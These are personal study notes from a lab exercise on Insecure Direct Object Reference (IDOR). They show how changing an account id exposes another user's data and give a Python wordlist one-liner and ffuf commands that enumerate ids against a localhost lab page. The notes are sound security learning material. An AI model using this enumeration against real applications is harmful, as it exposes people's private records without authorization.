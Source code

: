 **==Basically it is arises when we are able to access an object, on which we have no authorization, using his id.==**

It is very common in API driven applications.

<mark style="background: #FF5582A6;">**Insecure Direct Object Reference (IDOR)** is a security vulnerability that occurs when an application directly exposes a reference to an internal object (like a file, database record, or URL) without properly checking whether the user is authorized to access it. This allows attackers to manipulate the reference to access data or actions they shouldn’t be allowed to.</mark>

# IDOR 0x01
Here we can see thta using the account ID we can access to user information:
- ![[Pasted image 20250107161818.png]]
- in this casse the id is `1009`

In fact if we put `1010` we obtain:
- ![[Pasted image 20250107161909.png]]


So what we want is to gett all the possible information making this process automatic.

First of all we need a wordlist:
```bash
pyhton3 -c 'for i in range(1,20001): print(i)' > wordlist.txt
```



At this point we use `ffuf` to run the attack:
```bash
ffuf -u 'http://localhost/labs/e0x02.php?account=FUZZ' -w wordlist.txt -fs 849
```
- we need to filter as the size
- in this case the size of an `id` that doesn't exist is `849`


We can also adjust the output with `grep`
```bash
ffuf -u 'http://localhost/labs/e0x02.php?account=FUZZ' -w wordlist.txt -fs 849 | grep FUZZ
```
- ![[Pasted image 20250107162324.png]]


At this point we can look at all user info, in general we need to use Burp Intruder to filter for specific info.

